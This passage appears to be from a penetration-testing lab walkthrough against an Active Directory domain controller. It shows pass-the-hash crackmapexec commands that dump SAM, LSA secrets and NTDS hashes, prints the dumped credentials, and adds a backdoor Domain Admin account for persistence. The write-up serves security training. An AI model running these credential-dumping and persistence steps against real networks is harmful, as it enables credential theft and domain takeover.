0070   84 9D 4F AF FF 40 30 32 41 73 CC D8 CB 8C 6A 15    ..O..@02As....j.
0080   13 A3 48 A3 37 C6 D4 67 78 E4 E3 7B C2 E2 C2 E3    ..H.7..gx..{....
0090   69 62 6F 1F 15 3B DF 39 1F 8C 17 5F DA E0 42 53    ibo..;.9..._..BS
00A0   70 16 A2 19 8B 8C 12 0C 73 88 54 C9 07 A1 DD DD    p.......s.T.....
00B0   CB 88 AA A5 17 AF 97 BC EE 78 3D 1D 9A 36 DD C1    .........x=..6..
00C0   79 F2 BB 5C C8 A3 36 A0 08 63 18 3C 96 38 44 34    y.....6..c.<.8D4
00D0   BB 9A 8E EE 78 18 22 F5 1D 27 27 CD 14 E3 FD 08    ....x."..''.....
00E0   41 ED FA 70 04 EE FA 2A 8E 33 27 B4 57 F3 45 87    A..p...*.3'.W.E.
00F0   64 2E 1E 91 E7 9A 24 59 0D 97 B8 AD 6C B1 4E E7    d.....$Y....l.N.
0100   9A DB 3A 8E 35 E5 FF D4 28 34 F5 D4 9D 4C 64 5D    ..:.5...(4...Ld]

DPAPI_SYSTEM
0000   01 00 00 00 F1 08 BA 9F CD 35 54 A2 AB B8 2F F4    .........5T.../.
0010   A8 D2 9F 06 79 AE AA E6 E5 7F 23 22 D5 88 CE 98    ....y.....#"....
0020   7F 04 D6 A3 B1 BF 31 CF A3 5D 05 0A                ......1..]..

NL$KM
0000   40 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    @...............
0010   07 E9 F2 3F 08 49 46 07 02 CE 30 4B 65 D3 86 32    ...?.IF...0Ke..2
0020   6F 02 5D 36 7D E8 30 33 F4 71 94 44 98 37 CB 1A    o.]6}.03.q.D.7..
0030   05 CC 76 F1 26 E2 94 E7 D3 54 78 1F EF BE E9 13    ..v.&....Tx.....
0040   30 3B 62 CB A5 57 75 E6 78 F3 D4 55 5C 68 20 15    0;b..Wu.x..U.h .
0050   09 CB 95 83 43 36 08 77 CB 89 C1 EA 8E A6 40 6D    ....C6.w......@m


[+] 1 passwords have been found.
For more information launch it again with the -v option

elapsed time = 11.562562465667725
```

Nice nothing new so far.

next I will run mimikatz and get SAM:

```
┌──(root㉿kali-linux)-[/home/millycash/Downloads]
└─# crackmapexec winrm 192.168.210.16 -u Administrator -H 543beb20a2a579c7714ced68a1760d5e --sam
SMB         192.168.210.16  5985   ZPH-SVRCDC01     [*] Windows 10.0 Build 20348 (name:ZPH-SVRCDC01) (domain:internal.zsm.local)
HTTP        192.168.210.16  5985   ZPH-SVRCDC01     [*] http://192.168.210.16:5985/wsman
WINRM       192.168.210.16  5985   ZPH-SVRCDC01     [+] internal.zsm.local\Administrator:543beb20a2a579c7714ced68a1760d5e (Pwn3d!)
WINRM       192.168.210.16  5985   ZPH-SVRCDC01     Administrator:500:aad3b435b51404eeaad3b435b51404ee:5bdd6a33efe43f0dc7e3b2435579aa53:::
WINRM       192.168.210.16  5985   ZPH-SVRCDC01     Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WINRM       192.168.210.16  5985   ZPH-SVRCDC01     DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
ERROR:root:SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.
```

Next turn is LSA:

```
┌──(root㉿kali-linux)-[/home/millycash/Downloads]
└─# crackmapexec winrm 192.168.210.16 -u Administrator -H 543beb20a2a579c7714ced68a1760d5e --lsa 
SMB         192.168.210.16  5985   ZPH-SVRCDC01     [*] Windows 10.0 Build 20348 (name:ZPH-SVRCDC01) (domain:internal.zsm.local)
HTTP        192.168.210.16  5985   ZPH-SVRCDC01     [*] http://192.168.210.16:5985/wsman
WINRM       192.168.210.16  5985   ZPH-SVRCDC01     [+] internal.zsm.local\Administrator:543beb20a2a579c7714ced68a1760d5e (Pwn3d!)
WINRM       192.168.210.16  5985   ZPH-SVRCDC01     $MACHINE.ACC:plain_password_hex:dc66f30d3e8bd48b4bfb9c3f53eb66ebda1edbb7af476a9f7650476edce03326b61fabe212dfd9e6c2e06eaaffcab3c78cfd4f47cd564ef53e8eb5d855f9e998c34c5fabc5e713559e090d6e5dc149a97ed653608d5cd07864d7774f2d766512849d4fafff4030324173ccd8cb8c6a1513a348a337c6d46778e4e37bc2e2c2e369626f1f153bdf391f8c175fdae042537016a2198b8c120c738854c907a1ddddcb88aaa517af97bcee783d1d9a36ddc179f2bb5cc8a336a00863183c96384434bb9a8eee781822f51d2727cd14e3fd0841edfa7004eefa2a8e3327b457f34587642e1e91e79a24590d97b8ad6cb14ee7
WINRM       192.168.210.16  5985   ZPH-SVRCDC01     $MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:d47a6d90e1c5adf4200227514e393948
WINRM       192.168.210.16  5985   ZPH-SVRCDC01     dpapi_machinekey:0xf108ba9fcd3554a2abb82ff4a8d29f0679aeaae6
dpapi_userkey:0xe57f2322d588ce987f04d6a3b1bf31cfa35d050a
WINRM       192.168.210.16  5985   ZPH-SVRCDC01     NL$KM:07e9f23f0849460702ce304b65d386326f025d367de83033f47194449837cb1a05cc76f126e294e7d354781fefbee913303b62cba55775e678f3d4555c682015
```

Lastly the NTDS:

```
┌──(root㉿kali-linux)-[/home/millycash/Downloads]
└─# crackmapexec smb 192.168.210.16 -u Administrator -H 543beb20a2a579c7714ced68a1760d5e --ntds
SMB         192.168.210.16  445    ZPH-SVRCDC01     [*] Windows 10.0 Build 20348 x64 (name:ZPH-SVRCDC01) (domain:internal.zsm.local) (signing:True) (SMBv1:False)
SMB         192.168.210.16  445    ZPH-SVRCDC01     [+] internal.zsm.local\Administrator:543beb20a2a579c7714ced68a1760d5e (Pwn3d!)
SMB         192.168.210.16  445    ZPH-SVRCDC01     [+] Dumping the NTDS, this could take a while so go grab a redbull...
SMB         192.168.210.16  445    ZPH-SVRCDC01     Administrator:500:aad3b435b51404eeaad3b435b51404ee:543beb20a2a579c7714ced68a1760d5e:::
SMB         192.168.210.16  445    ZPH-SVRCDC01     Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         192.168.210.16  445    ZPH-SVRCDC01     krbtgt:502:aad3b435b51404eeaad3b435b51404ee:0540fe51ddd618f42a66ef059ac36441:::
SMB         192.168.210.16  445    ZPH-SVRCDC01     internal.zsm.local\mssql_svc:6101:aad3b435b51404eeaad3b435b51404ee:8cb21ab7f3ee6d782c724216bd88d1d1:::
SMB         192.168.210.16  445    ZPH-SVRCDC01     internal.zsm.local\Emily:6601:aad3b435b51404eeaad3b435b51404ee:29ab86c5c4d2aab957763e5c1720486d:::
SMB         192.168.210.16  445    ZPH-SVRCDC01     internal.zsm.local\Laura:6602:aad3b435b51404eeaad3b435b51404ee:29ab86c5c4d2aab957763e5c1720486d:::
SMB         192.168.210.16  445    ZPH-SVRCDC01     internal.zsm.local\Melissa:6603:aad3b435b51404eeaad3b435b51404ee:184260f5bf16a77d67a9d540fda79495:::
SMB         192.168.210.16  445    ZPH-SVRCDC01     internal.zsm.local\Sarah:6604:aad3b435b51404eeaad3b435b51404ee:29ab86c5c4d2aab957763e5c1720486d:::
SMB         192.168.210.16  445    ZPH-SVRCDC01     internal.zsm.local\Amy:6605:aad3b435b51404eeaad3b435b51404ee:29ab86c5c4d2aab957763e5c1720486d:::
SMB         192.168.210.16  445    ZPH-SVRCDC01     internal.zsm.local\Steven:6606:aad3b435b51404eeaad3b435b51404ee:29ab86c5c4d2aab957763e5c1720486d:::
SMB         192.168.210.16  445    ZPH-SVRCDC01     internal.zsm.local\Malcolm:6607:aad3b435b51404eeaad3b435b51404ee:29ab86c5c4d2aab957763e5c1720486d:::
SMB         192.168.210.16  445    ZPH-SVRCDC01     internal.zsm.local\Aron:6608:aad3b435b51404eeaad3b435b51404ee:8cb21ab7f3ee6d782c724216bd88d1d1:::
SMB         192.168.210.16  445    ZPH-SVRCDC01     internal.zsm.local\Matt:6609:aad3b435b51404eeaad3b435b51404ee:29ab86c5c4d2aab957763e5c1720486d:::
SMB         192.168.210.16  445    ZPH-SVRCDC01     internal.zsm.local\Jamie:6610:aad3b435b51404eeaad3b435b51404ee:29ab86c5c4d2aab957763e5c1720486d:::
SMB         192.168.210.16  445    ZPH-SVRCDC01     ZPH-SVRCDC01$:1000:aad3b435b51404eeaad3b435b51404ee:d47a6d90e1c5adf4200227514e393948:::
SMB         192.168.210.16  445    ZPH-SVRCDC01     ZPH-SVRCHR$:1601:aad3b435b51404eeaad3b435b51404ee:06e402102d72956c62a63794a999935e:::
SMB         192.168.210.16  445    ZPH-SVRCDC01     ZPH-SVRCSUP$:1602:aad3b435b51404eeaad3b435b51404ee:36e7d551e7cb15ca7dad3fd851fc707f:::
SMB         192.168.210.16  445    ZPH-SVRCDC01     ZSM-SVRCSQL02$:5601:aad3b435b51404eeaad3b435b51404ee:ad854719bbb6fc1664316a14cc6eb88d:::
SMB         192.168.210.16  445    ZPH-SVRCDC01     INT-MAINT$:6102:aad3b435b51404eeaad3b435b51404ee:8c0aff2e562402c147dc9650b1eb86cb:::
SMB         192.168.210.16  445    ZPH-SVRCDC01     ZSM$:1103:aad3b435b51404eeaad3b435b51404ee:9ed7d3fe3d1c5ffb542a83778e57188e:::
SMB         192.168.210.16  445    ZPH-SVRCDC01     [+] Dumped 20 NTDS hashes to /root/.cme/logs/ZPH-SVRCDC01_192.168.210.16_2023-09-18_111934.ntds of which 14 were added to the database
```

Lastly will be the Winpeas turn:

```
[*] BASIC SYSTEM INFO
 [+] WINDOWS OS
   [i] Check for vulnerabilities for the OS version with the applied patches
   [?] https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#kernel-exploits

Host Name:                 ZPH-SVRCDC01
OS Name:                   Microsoft Windows Server 2022 Standard Evaluation
OS Version:                10.0.20348 N/A Build 20348
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Primary Domain Controller
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:
Product ID:                00454-40000-00001-AA176
Original Install Date:     20/10/2022, 07:56:15
System Boot Time:          18/09/2023, 05:13:19
System Manufacturer:       VMware, Inc.
System Model:              VMware7,1
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
BIOS Version:              VMware, Inc. VMW71.00V.16707776.B64.2008070230, 07/08/2020
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-us;English (United States)
Input Locale:              en-gb;English (United Kingdom)
Time Zone:                 (UTC+00:00) Dublin, Edinburgh, Lisbon, London
Total Physical Memory:     4,095 MB
Available Physical Memory: 2,716 MB
Virtual Memory: Max Size:  4,799 MB
Virtual Memory: Available: 3,544 MB
Virtual Memory: In Use:    1,255 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    internal.zsm.local
Logon Server:              N/A
Hotfix(s):                 4 Hotfix(s) Installed.
                           [01]: KB5022507
                           [02]: KB5012170
                           [03]: KB5026370
                           [04]: KB5026493
Network Card(s):           1 NIC(s) Installed.
                           [01]: vmxnet3 Ethernet Adapter
                                 Connection Name: Ethernet0
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 192.168.210.16
                                 [02]: fe80::2edd:cc4a:e744:236a
Hyper-V Requirements:      A hypervisor has been detected. Features required for Hyper-V will not be displayed.

Caption                                     Description      HotFixID   InstalledOn

http://support.microsoft.com/?kbid=5022507  Update           KB5022507  2/15/2023

https://support.microsoft.com/help/5012170  Security Update  KB5012170  10/20/2022

https://support.microsoft.com/help/5026370  Security Update  KB5026370  5/19/2023

                                            Update           KB5026493  5/19/2023


Checking PS history file
 Volume in drive C has no label.
 Volume Serial Number is 1C84-5AEF

 Directory of C:\Users\Administrator\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine
 
 
 
[*] NETWORK
 [+] CURRENT SHARES

Share name   Resource                        Remark

-------------------------------------------------------------------------------
C$           C:\                             Default share
IPC$                                         Remote IPC
ADMIN$       C:\Windows                      Remote Admin
NETLOGON     C:\Windows\SYSVOL\sysvol\internal.zsm.local\SCRIPTS
                                             Logon server share
SYSVOL       C:\Windows\SYSVOL\sysvol        Logon server share
The command completed successfully.


 [+] INTERFACES

Windows IP Configuration

   Host Name . . . . . . . . . . . . : ZPH-SVRCDC01
   Primary Dns Suffix  . . . . . . . : internal.zsm.local
   Node Type . . . . . . . . . . . . : Hybrid
   IP Routing Enabled. . . . . . . . : No
   WINS Proxy Enabled. . . . . . . . : No
   DNS Suffix Search List. . . . . . : internal.zsm.local
                                       zsm.local

Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . :
   Description . . . . . . . . . . . : vmxnet3 Ethernet Adapter
   Physical Address. . . . . . . . . : 00-50-56-B9-58-7D
   DHCP Enabled. . . . . . . . . . . : No
   Autoconfiguration Enabled . . . . : Yes
   Link-local IPv6 Address . . . . . : fe80::2edd:cc4a:e744:236a%6(Preferred)
   IPv4 Address. . . . . . . . . . . : 192.168.210.16(Preferred)
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 192.168.210.1
   DHCPv6 IAID . . . . . . . . . . . : 100683862
   DHCPv6 Client DUID. . . . . . . . : 00-01-00-01-2C-99-86-C2-00-50-56-B9-58-7D
   DNS Servers . . . . . . . . . . . : ::1
                                       127.0.0.1
                                       192.168.210.10
   NetBIOS over Tcpip. . . . . . . . : Enabled


IPv4 Route Table
===========================================================================
Active Routes:
Network Destination        Netmask          Gateway       Interface  Metric
          0.0.0.0          0.0.0.0    192.168.210.1   192.168.210.16     16
        127.0.0.0        255.0.0.0         On-link         127.0.0.1    331
        127.0.0.1  255.255.255.255         On-link         127.0.0.1    331
  127.255.255.255  255.255.255.255         On-link         127.0.0.1    331
    192.168.210.0    255.255.255.0         On-link    192.168.210.16    271
   192.168.210.16  255.255.255.255         On-link    192.168.210.16    271
  192.168.210.255  255.255.255.255         On-link    192.168.210.16    271
        224.0.0.0        240.0.0.0         On-link         127.0.0.1    331
        224.0.0.0        240.0.0.0         On-link    192.168.210.16    271
  255.255.255.255  255.255.255.255         On-link         127.0.0.1    331
  255.255.255.255  255.255.255.255         On-link    192.168.210.16    271
===========================================================================
Persistent Routes:
  Network Address          Netmask  Gateway Address  Metric
          0.0.0.0          0.0.0.0    192.168.210.1       1
===========================================================================

IPv6 Route Table
===========================================================================
Active Routes:
 If Metric Network Destination      Gateway
  1    331 ::1/128                  On-link
  6    271 fe80::/64                On-link
  6    271 fe80::2edd:cc4a:e744:236a/128
                                    On-link
  1    331 ff00::/8                 On-link
  6    271 ff00::/8                 On-link
===========================================================================
Persistent Routes:
  None

 [+] Hosts file

 [+] DNS CACHE
    Record Name . . . . . : ZPH-SVRDC01.zsm.local
    A (Host) Record . . . : 192.168.210.10
```

Nothing much out of it so I will create my own user for persistence:

```
*Evil-WinRM* PS C:\temp> net user /add yovecio Coglione1! /domain
The command completed successfully.

*Evil-WinRM* PS C:\temp>
```

And add it to domain admins:

```
*Evil-WinRM* PS C:\temp> net group "Domain Admins" yovecio /add /domain
The command completed successfully.

*Evil-WinRM* PS C:\temp> net group "Domain Admins"
Group name     Domain Admins
Comment        Designated administrators of the domain

Members

-------------------------------------------------------------------------------
Administrator            yovecio
The command completed successfully.

*Evil-WinRM* PS C:\temp>
```

From here I checked for tips and apparenlty the **internal.zms.local** and **zsm.local**  have domain trust abuse which means we should be able to pwn the zsm from itnernal if bidirectionality is setup!

I will continue on DC01 on .10 in ZSM realm.

&nbsp;